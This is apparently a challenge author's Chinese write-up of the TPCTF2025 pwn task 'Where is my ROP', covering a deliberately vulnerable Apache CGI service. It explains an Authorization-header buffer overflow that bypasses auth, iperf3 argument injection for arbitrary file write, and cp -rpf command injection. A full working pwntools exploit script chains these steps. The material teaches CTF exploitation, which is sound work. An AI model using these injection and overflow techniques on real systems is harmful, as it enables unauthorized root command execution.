



https://zq4mt4l88ne.feishu.cn/docx/ArMedC8xyo5sE0xTrWPc8aZVnfe?from=from_copylink

# Where is my ROP（15 Solves）

- 没有时间重写一个 http 服务器了，于是直接复用了在 qwb 中的 old_fashion_apache 的前端和认证顺序的代码
- 为了 apache fork 出来的进程可以使用真正的 tmp 目录，本题做了好多服务端 service 的配置，详细见 Dockerfile
- 为了让一个 www-data 的用户能够以 root 权限执行命令，本题采用进程间通信的模式，让 root 权限的 basement 与 cgi-bin 进行交互来完成。
- 本题的预期解是利用多段的文件写和带权限复制，实现简单的命令注入，并通过 ls 命令回传获取 flag 的文件名，再次将其拷贝到 web 目录下读取
- 非预期是 iperf3 自带的-F 命令可以直接将 flag 内容带出来，同时 flag 文件名改造的过于简单，导致选手可以正则通配出来。
- [题目源码](https://github.com/tp-ctf/TPCTF2025/tree/main/pwn-where-is-my-rop)

## 题目描述

login.cgi 和 logout.cgi 可以以未认证的状态访问 basement 的 1-3 号的命令:



其他命令需要通过认证后的接口来执行（未在本题中列出）

我们会在向 login.cgi 进行 POST 的过程中将 payload 以 Authorization 的 header 进行传输，在 apache2.conf 中加入如下 CGIPassAuth 的指令，就可以把 header 中的 Authorization 以 HTTP_AUTHORIZATION 的形式传给 cgi-bin：

```
<Directory "/var/www/cgi-bin">
    AllowOverride None
    Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
    CGIPassAuth  On
    Require all granted
</Directory>
```

AUTHORIZATION 最多支持 4 个 128 字节的冒号分割字段，分别是 username password resetpass comfirm_pass ，按照与 basement 约定好的格式打包接可以进行交互了。

## 漏洞点

### AUTHORIZATION 解析存在 OOB



```
char dec_authorization[512] ;
__uint8_t remote_code ;
```

首先是 dec_len 指定为 512，但是 base64_decode 接收的 len 字段是 OUT 类型字段，由函数本体进行赋值，dec_authorization 是 512 字节数组，enc_authorization 最大 1024，存在缓冲区溢出，同时后面时 remote_code，所以可以通过这个 OOB 实现权限绕过，调用后面的 basement 函数。

### iperf3 存在任意文件写



iperf_client 中接收 ip 和 port，并直接写入到 cmd 里面执行，尽管会通过 isSafeCommandArg 进行过滤，但是点和斜杠 `./` 不会被过滤，同时 iperf3 有-T 和--logfile 的参数可以指定写入的内容和文件名，我们可以实现对任意文件的写

```
Server or Client:
  --logfile f               send output to a log file
Client specific:
  -T, --title str           prefix every output line with this string
```

### 证书更新存在任意文件拷贝

- Renew cert 函数中，首先执行 `/root/.acme.sh/acme.sh`，本题中 acme.sh 是空的脚本文件，暂时无法利用。
- 接下来会读取 `/tmp/acme.sh.log`，查看是否存在 `_on_issue_success`，成功后会执行目录拷贝：

```c
// 复制续期后的证书到指定目录 /var/cert/<dir>/
snprintf(command, sizeof(command),
         "cp -rpf /root/.acme.sh/%s /var/cert/%s/",
         domain, dir);
system(command);
```

- 这里同样存在命令注入，可以实现任意文件拷贝，这个 cp -rpf 代表的是保留源文件权限的拷贝，只要源文件有执行权限，新的文件也会被赋予执行权限。
- 最后清理 `/tmp/acme.sh.log`

## 漏洞利用

1. 首先 `/root/.acme.sh/acme.sh` 是带有执行权限的，因此我们只需要修改这个文件就可以实现简单的命令执行语句，例如 `ls ``/`，为了在 ban 掉输出和管道符条件下将命令记录下来，我们可以使用 nohup 命令，他会在生成一个 nohup.out
2. 然而 nohup.out 本身由 root 所有，并不允许让 www-data 用户来读取，为此我们需要进行一次权限覆盖
3. 攻击流程如下：

   1. 全程使用缓冲区溢出漏洞来制定调用码
   2. 首先覆盖 acme.sh，写入 `nohup ls ``/ #`
   3. 写入 `_on_issue_success` 并执行 `cp -rpf ``/``root/.acme.sh/acme.sh /nohup.out`
   4. 写入 `_on_issue_success` 并执行 `cp -rpf /nohup.out /var/www/html/`
   5. 访问 `http://ip:port/nohup.out` 获取 flag 的文件名 flaG
   6. 写入 `_on_issue_success` 并执行 `cp -rpf /flaG /var/www/html/`
   7. 访问 `http://ip``:port/` flaG 获取 flag

## EXP

```
# -*- coding: utf-8 -*-
from pwn import * # type: ignore
import os
import hashlib
import math
import socket
import base64

def batch_send(sock,payload,huge=0):
    if huge==1:
        sock.send=sock.write
    for i in range(0, len(payload),0x1000):
        if i+0x1000 < len(payload):
            sock.send(payload[i:i+0x1000])
        else:
            sock.send(payload[i:])

def build_http_req_str(method=b'POST',uri=b'',uri_arg=b'',post_arg=b'',host=b'', port=80,Content_Length=0,Authorization=b'',Content_Type=b'application/x-www-form-urlencoded'):
    payload = b"\r\n".join([
        b"%s %s%s HTTP/1.1" % (method,uri,uri_arg),
        b"Host: %s:%d" % (host, port),
        b"Authorization: %s" % (Authorization),
        b"Content-Length: %d" % (Content_Length),
        b"Content-Type: %s" % (Content_Type),
        b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0",
        b"Accept: */*",
        b"Accept-Language: en-US,en;q=0.5",
        b"Accept-Encoding: gzip, deflate, br",
        b"Connection: close",
        b"",
        b"%s" % (post_arg),
    ])
    return payload

def make_tcp_req(host,port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(1000.0)
    server_address = (host, port)
    print(f'Connecting to {server_address[0]} port {server_address[1]}')
    s.connect(server_address)
    return s

def send_payload_res(auth_payload):
    auth_payload = base64.b64encode(auth_payload)
    auth_payload = b'Basic '+auth_payload
    post_arg = b"id=abcdefghijklmnopqrstuvwx"
    payload = build_http_req_str(uri=b"/cgi-bin/login.cgi?login",host=host,port=port,Content_Length=len(post_arg),post_arg=post_arg,Authorization=auth_payload)
    sock=make_tcp_req(host,port)
    batch_send(sock,payload)
    response = sock.recv(0x1000)
    print('Received:', response.decode('utf-8'))
    sock.close()

def send_payload(auth_payload):
    auth_payload = base64.b64encode(auth_payload)
    auth_payload = b'Basic '+auth_payload
    post_arg = b"id=abcdefghijklmnopqrstuvwx"
    payload = build_http_req_str(uri=b"/cgi-bin/login.cgi?login",host=host,port=port,Content_Length=len(post_arg),post_arg=post_arg,Authorization=auth_payload)
    sock=make_tcp_req(host,port)
    batch_send(sock,payload)
    sock.close()

host = b'127.0.0.1'
port = 19980
def main():

    iperf_server = b'127.0.0.1'.rjust(0x7f,b'\x20') + b':' + b'22222' +b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00'+b'\x00'*(0x7f-5) + b'\x06'
    send_payload(iperf_server)

    iperf_client =  b'127.0.0.1'.rjust(0x7f,b'\x20') + b':' + b'22222 --logfile /root/.acme.sh/acme.sh -T "nohup ls / #"' +b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' +b'\x00'*(0x7f-56) + b'\x09'
    send_payload_res(iperf_client)

    iperf_client =  b'127.0.0.1'.rjust(0x7f,b'\x20') + b':' + b'22222 --logfile /tmp/acme.sh.log -T "_on_issue_success"' +b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' + b'\x00'*(0x7f-55)+ b'\x09'
    send_payload_res(iperf_client)
    cp_file = b'../../../../../root/.acme.sh/acme.sh' + b":" + b'../../../../../nohup.out #' + b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' +b'\x00'*(0xfe-36-26) + b'\x0b'
    send_payload_res(cp_file)

    iperf_client =  b'127.0.0.1'.rjust(0x7f,b'\x20') + b':' + b'22222 --logfile /tmp/acme.sh.log -T "_on_issue_success"' +b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' + b'\x00'*(0x7f-55)+ b'\x09'
    send_payload_res(iperf_client)
    echo_flag = b'g'.rjust(0x7f,b'g')+ b":" + b'h'.rjust(0x7f,b'g')+ b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' + b'\x0b'
    send_payload_res(echo_flag)

    iperf_client =  b'127.0.0.1'.rjust(0x7f,b'\x20') + b':' + b'22222 --logfile /tmp/acme.sh.log -T "_on_issue_success"' +b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' + b'\x00'*(0x7f-55)+ b'\x09'
    send_payload_res(iperf_client)
    cp_file = b'../../../../../nohup.out' + b":" + b'../../../../../var/www/html' + b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' +b'\x00'*(0xfe-24-27) + b'\x0b'
    send_payload_res(cp_file)
    # then we can get the flag's name from http://localhost:19980/nohup.out

    iperf_client =  b'127.0.0.1'.rjust(0x7f,b'\x20') + b':' + b'22222 --logfile /tmp/acme.sh.log -T "_on_issue_success"' +b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' + b'\x00'*(0x7f-55)+ b'\x09'
    send_payload_res(iperf_client)
    cp_file = b'../../../../../the_flaG_is_here056480436103548697634' + b":" + b'../../../../../var/www/html' + b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' +b'\x00'*(0xfe-52-27) + b'\x0b'
    send_payload_res(cp_file)
    # then we can get the flag from http://localhost:19980/the_flaG_is_here056480436103548697634

if __name__ == "__main__":
    main()
```
